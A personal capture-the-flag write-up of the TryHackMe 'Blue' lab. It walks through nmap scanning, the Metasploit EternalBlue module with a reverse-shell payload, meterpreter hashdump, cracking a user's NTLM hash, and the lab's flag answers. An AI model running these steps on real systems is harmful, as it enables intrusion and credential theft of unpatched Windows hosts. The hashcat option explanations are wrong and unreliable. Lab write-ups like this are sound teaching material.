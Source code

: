 #Blue

Author: Corbett Stephens July 14, 2021

Blue is a TryHackMe room that explored the "Eternal Blue" exploit from older versions of windows. 

Room: https://tryhackme.com/room/blue

------------------------------------------------------------------------------------------------

I will be attempting to root this machine from the standpoint that I do not know that this is an eternal blue exploit.

The first thing I do is start up openvpn that way I can connect to the TryHackMe rooms.

> sudo openvpn <file>

#Reconnaissance
>10.10.48.230

First thing I do is to ping the host to see if we can get an explicit response.

>ping 10.10.48.230

PING 10.10.48.230 (10.10.48.230) 56(84) bytes of data.
64 bytes from 10.10.48.230: icmp_seq=1 ttl=125 time=180 ms
64 bytes from 10.10.48.230: icmp_seq=2 ttl=125 time=202 ms
64 bytes from 10.10.48.230: icmp_seq=3 ttl=125 time=224 ms
64 bytes from 10.10.48.230: icmp_seq=4 ttl=125 time=144 ms
64 bytes from 10.10.48.230: icmp_seq=5 ttl=125 time=167 ms
64 bytes from 10.10.48.230: icmp_seq=6 ttl=125 time=189 ms
^C64 bytes from 10.10.48.230: icmp_seq=7 ttl=125 time=212 ms
64 bytes from 10.10.48.230: icmp_seq=8 ttl=125 time=235 ms
^C
--- 10.10.48.230 ping statistics ---
8 packets transmitted, 8 received, 0% packet loss, time 7010ms
rtt min/avg/max/mdev = 144.010/193.973/235.202/28.333 ms

We can see that the host is up so now we can start with a nmap scan

nmap -p0-1000 -sC -sV -vv 10.10.48.230 -oN initial.nmap

"-p0-1000" scans the first 1000 ports
"-sC" uses the default script for enumeration
"-sV" tries to specify versions
"-vv" extra verbosity
"-oN initial.nmap" writes the output to the file initial.nmap

Looking at the output we can see that three ports are open

PORT    STATE SERVICE      REASON  VERSION
135/tcp open  msrpc        syn-ack Microsoft Windows RPC
139/tcp open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)

We also ge the name of a potential user: Jon

The next thing I would do is run another nmap scan to look for vulnerablities. This could be done in the initial nmap scan but I decided to partition it into two seperate scans.

I'm going to use the same command but chagne the script to "vuln"

nmap -p0-1000 --script vuln -sV -vv 10.10.48.230 -oN vuln.nmap

Luckily, the results yield some intersting information.

| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).

Do to our vuln script we can see that this system is vulnerable to smb-vuln-ms17-010 which is a remote code execution vulnerability.

A simple google search of "smb-vuln-ms17-010" will pull up the information about this vulnerability. Reading the first line of the article we can see that ms17-010 is also known as "EternalBlue". https://nmap.org/nsedoc/scripts/smb-vuln-ms17-010.html

#Gaining Access

We now want to try to gain futher access of this machine. We have a potential attack vector with EternalBlue. For someone that doesn't know the first step in using the EternalBlue exploit, use your favorite search engine to look for a starting position.

Fire up Metasploit!

In Kali Linux, you can do this by searching metasploit in the home bar and then typing in your sudo password. Otherwise, you'll want run "sudo msfdb init && msfconsole"

Once the metasploit shell is spawned the fun can begin.

Since my initial attack vector consists of EternalBlue, then I will look for a module that will allow me to use it.

This can be done via:
"search eternalblue" 

The module we want is "exploit/windows/smb/ms17_010_eternalblue" because this uses windows versions prior to windows 8

**PICTURE**

An easy way to select the module you want to use is to enter "use <number>" so we would enter "use 2"

We want to know the required fields for this module. This can be done by entering the command "options". This will allows us to see some important information.

**Picture**

We need to set the RHOSTS which is the target host that we are attacking. We do this by entering:

"set RHOSTS 10.10.48.230"

The playload we want to use is the "windows/x64/shell/reverse_tcp"

We can set this as the payload by doing "set payload windows/x64/shell/reverse_tcp"

To run the exploit we can simply enter "exploit"

If the exploit is successful then a DOS (disk operationg system) will appear. 

If we run "whoami" it tells us that we are "nt authority\system"

We want upgrade this shell to a meterprerter shell. Background the current shell by doing "CTRL + Z". I used this article to help upgrade my shell https://www.hackingarticles.in/command-shell-to-meterpreter/ 


I used "sessions -u 1"

**PICTURE**

Now that we have our meterpreter shell, we can run "getsystem" to ensure that we are indeed "nt authority\system".

Just because our user is system, doesnt mean that the process is. We will want to switch our process to one that is running "nt authority\system". This is shown below.

**PICTURE**

Meterpreter has a handy command to dump the SAM database. SAM is the system accounts manager. The SAM database stores passwords locally. By using the "hashdump" command we can get this data and try to make something useful with it.

We get the following data:

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

In this case, we are interested in Jon. I created a file named "jon_hash.txt" and put the hash values into the file. I decided that the long string of data was two 32 character hash strings and put them on seperate lines. To crack this hash, I used hashcat. I ran the following command. 

hashcat -m 0 -a 0 jon_hash.txt ./rockyou.txt --show

"-m 0" straight mode
"-a 0" MD5
"jon_hash.txt" hash file
"./rockyou.txt" dictionary
"--show" show results

john jon.hash --format=NT --wordlist=./rockyou.txt
john jon.hash --format=NT --show
Jon:alqfna22:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

password:alqfna22

#Task 5: Find Flags!

The first flag can be found by 'cd \' and then type 'flag1.txt'

Flag 1: flag{access_the_machine}

The second flag is found in config
C:\Windows\system32\config
"cat flag2.txt"

Flag 2: flag{sam_database_elevated_access}

Flag 3 can be found in C:\Users\Jon\Documents

Flag 3: flag{admin_documents_can_be_valuable}
